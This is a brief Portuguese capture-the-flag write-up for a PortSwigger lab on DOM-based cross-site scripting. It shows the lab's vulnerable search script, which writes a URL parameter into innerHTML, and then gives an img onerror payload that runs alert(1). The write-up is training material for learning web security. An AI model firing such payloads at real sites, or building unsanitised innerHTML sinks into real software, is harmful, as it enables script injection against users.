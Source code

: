 #ctf 

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink

A página tem um script que é executado ao fazer uma busca

```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}

var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	doSearchQuery(query);
}
```

E insere a query em:

```html
<span id="searchMessage">
query
</span>
```

Então é so inserir este payload:

```html
<img src='x' onerror='alert(1)'>
```

GG